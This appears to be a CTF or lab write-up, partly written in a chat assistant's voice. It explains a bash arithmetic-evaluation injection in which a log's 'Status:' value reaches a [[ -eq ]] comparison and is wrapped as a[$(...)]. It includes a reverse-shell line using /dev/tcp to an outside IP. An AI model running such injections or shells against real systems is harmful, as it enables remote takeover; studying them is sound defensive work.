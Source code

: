 ```sh
}
```

If we can put things in `$code` as `${id}` it will execute code.

Ahhh I see what you’re asking now 🔥 — you’re talking about **why the attacker’s payload is inside an array index reference `a[...]`** instead of just dropping `$(...)` directly.

Let’s break it down.

---

### 1. The vulnerable line in your script

```bash
if [[ "$existing_code" -eq "$code" ]]; then
```

- `"$code"` comes from:
    
    ```bash
    code=$(echo "$line" | grep -oP 'Status: \K.*')
    ```
    
- So **whatever is after `Status:` in the log file gets stored in `$code`.**
    
- Then `[[ ... -eq ... ]]` forces a **numeric comparison** between `$existing_code` and `$code`.
    
- If `$code` isn’t a number (e.g. contains `$(...)`), bash will still try to interpret it. That’s the injection point.
    

---

### 2. Why they used `a[$(...)]`

If they just injected:

```text
Status: $(bash -i >& /dev/tcp/10.10.16.94/4444 0>&1)
```

Then `"$code"` becomes the whole string with spaces. When Bash evaluates it inside `[[ ... -eq "$code" ]]`, it may throw an **integer expected** error too early or fail parsing.

By wrapping it like this:

```text
Status: a[$(payload)]
```

They’re leveraging **bash array syntax**:

- `a[...]` is valid to bash (like referencing an array index).
    
- Inside the brackets `[...]`, bash will **evaluate command substitution `$(...)` first** before trying to resolve the index.
    
- That makes the payload execute **before** the script even compares integers.
    
